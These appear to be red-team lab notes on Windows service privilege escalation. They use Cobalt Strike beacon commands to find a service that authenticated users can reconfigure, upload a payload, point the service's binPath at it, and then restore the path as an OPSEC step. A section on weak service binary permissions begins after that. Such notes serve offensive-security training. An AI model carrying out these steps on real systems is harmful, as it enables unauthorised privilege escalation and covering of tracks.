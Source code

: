 
If we are allowed to changeconfig of a service we can execute a arbitary binary

```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService2' (State: Running, StartMode: Auto)
```

```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

**Authenticated Users can: ChangeConfig, Start, Stop**

```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```

Validate that the path is updated:

```
run sc qc VulnService2
```

Restart the service and connect to the beacon

> [!OPSEC]
> Restore the service to previous state 

```
run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
```

> [!warning] 
>  The additional set of escaped quotes is necessary to ensure that the path remains fully quoted, otherwise you could introduce a new unquoted service path vulnerability. 

## Weak Service Binary Permissions

```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  Modify, Synchronize
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:DUD:AI(A;;0x1301bf;;;BU)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200
         a9;;;S-1-15-2-2)
```

 BUILTIN\Users:  Allow  Modify, Synchronize